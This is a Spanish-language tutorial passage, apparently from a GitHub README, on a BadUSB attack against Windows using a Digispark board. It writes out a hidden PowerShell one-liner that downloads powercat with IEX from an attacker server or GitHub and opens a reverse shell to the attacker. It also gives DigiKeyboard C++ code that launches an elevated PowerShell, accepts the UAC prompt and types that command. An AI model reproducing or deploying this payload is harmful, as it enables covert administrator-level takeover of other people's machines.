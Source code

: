 Con esto ya Windows nos permitiría correr el siguiente snippet de código en powershell. 
```powershell
PowerShell.exe -WindowStyle hidden {powershell -c \"IEX(New-Object System.Net.WebClient).DownloadString('http://(IP)/powercat.ps1');powercat -c (IP) -p (PUERTO) -e powershell\"}
```
Vamos a analizarlo:
```powershell
PowerShell.exe -WindowStyle hidden{}
```

Ejecuta las instrucciones dentro de las llaves y esconde la terminal de PowerShell de manera que no la detecte el usuario.

```powershell
powershell -c \"IEX(New-Object System.Net.WebClient).DownloadString('http://(IP)/powercat.ps1');"
```
Como posteriormente veremos, para realizar este ataque tendremos que crear un servidor HTTP en caso de que el objetivo no tenga conexión a Internet para que se descargue powercat (Lo usaremos para crear la reverse shell porque es fácil de manejar y porque normalmente las máquinas Windows no tienen Netcat instalado). Si sabes que el objetivo tiene conexión a Internet, a lo mejor te es más conviniente introducir el URL del archivo powercat.ps1 `https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1`. En resumen, este snippet sirve para bajarse el fichero powercat.ps1 ya sea de un servidor que hostea el atacante o del propio repositorio de Github.

```powershell
powercat -c (IP) -p (PUERTO) -e powershell\
```
Este snippet sirve para conectarnos al atacante lanzando un intérprete de powershell (Deberemos de poner la IP del atacante y el puerto que está en escucha en la máquina atacante). Esto hace que el atacante tome control del sistema ya que como ahora veremos vamos a conseguir lanzar este snippet como administrador.

Con el siguiente código abriríamos powershell y ejecutaríamos el comando con perisos de administrador.

```cpp
void create_reverse_shell (){
    //abre powershell con permisos de administrador
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    DigiKeyboard.delay(1000);
    DigiKeyboard.print(F("powershell"));
    DigiKeyboard.delay(700);
    DigiKeyboard.sendKeyStroke(KEY_ENTER, MOD_CONTROL_LEFT|MOD_SHIFT_LEFT);
    DigiKeyboard.delay(1000);
    DigiKeyboard.sendKeyStroke(KEY_ARROW_LEFT);
    DigiKeyboard.delay(500);
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(1500);
    // RECORDATORIO: Puedes cambiar el URL al archivo de powercat si el objetivo tiene conexión a internet. (Así nos ahorramos tener el servidor HTTP)
    DigiKeyboard.print("PowerShell.exe -WindowStyle hidden {powershell -c \"IEX(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c (IP) -p (PUERTO) -e powershell\"}");
    // esconde la ventana al usuario y nos permite tomar el control completo del sistema
    DigiKeyboard.delay(700);
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
}
```
